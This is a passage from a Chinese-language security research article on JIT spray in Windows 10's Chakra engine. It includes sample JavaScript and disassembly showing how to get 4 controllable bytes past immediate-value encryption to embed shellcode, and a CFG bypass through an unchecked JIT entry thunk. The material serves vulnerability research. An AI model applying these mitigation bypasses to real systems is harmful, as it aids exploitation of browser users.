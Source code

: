
0x03 绕过Windows 10的 Chakra引擎的立即数加密
=====

Windows 10的Chakra引擎并没有前述问题。但是，由于Windows 10的Chakra引擎高度优化，在处理整数类型数组写入操作时，会用最高效的方式生成JIT代码。例如，对于下面的JavaScript语句：

```
var ar = new Uint16Array(0x10000);
ar[0x9090/2] = 0x9090;
ar[0x9090/2] = 0x9090;
ar[0x9090/2] = 0x9090;
ar[0x9090/2] = 0x9090;
...

```

生成的机器指令是：

```
...
0b8110e0 66c786909000009090 mov   word ptr [esi+9090h],9090h
0b8110e9 66c786909000009090 mov   word ptr [esi+9090h],9090h
0b8110f2 66c786909000009090 mov   word ptr [esi+9090h],9090h
0b8110fb 66c786909000009090 mov   word ptr [esi+9090h],9090h
...

```

虽然Chakra引擎的JIT Spray防御措施只允许用户控制最多2字节立即数，但在上面这种情况下，数组索引和要写入的数字会出现在同一条指令中。所以实际上我们有了4字节而不是2字节的可控数据。

在这种情况下，同样可在其中嵌入前面提到的每条指令长度不大于2字节的Shellcode。只是由于多了中间的两字节0x00（会被作为指令“add byte ptr [eax],al”执行），所以需要在最开始两字节的指令中将EAX设为可写的地址。

0x04 利用Chakra引擎绕过CFG
=====

利用前面介绍的两种方法，可以实施JIT Spray绕过DEP。但嵌入在JIT代码中的Shellcode执行入口地址显然无法通过CFG检查。但实际上Chakra引擎的实现中就存在可用来绕过CFG的地方。

无论所执行的JavaScript是否需要启动JIT，Chakra引擎都一定会在内存中生成如下入口函数：

```
0:017> uf 4ff0000
04ff0000 55          push  ebp
04ff0001 8bec        mov   ebp,esp
04ff0003 8b4508      mov   eax,dword ptr [ebp+8]
04ff0006 8b4014      mov   eax,dword ptr [eax+14h]
04ff0009 8b4840      mov   ecx,dword ptr [eax+40h]
04ff000c 8d4508      lea   eax,[ebp+8]
04ff000f 50          push  eax
04ff0010 b840cb5a71  mov   eax, 715acb40h ; jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>
04ff0015 ffe1        jmp   ecx

```

这个函数的指针可以通过CFG检查，同时，这个函数在jmp ecx之前，并没有对ecx的指针其进行CFG检查。所以，这个入口函数实际上相当于一个可以跳往任意地址的跳板。下面我们姑且将其称作“cfgJumper”。

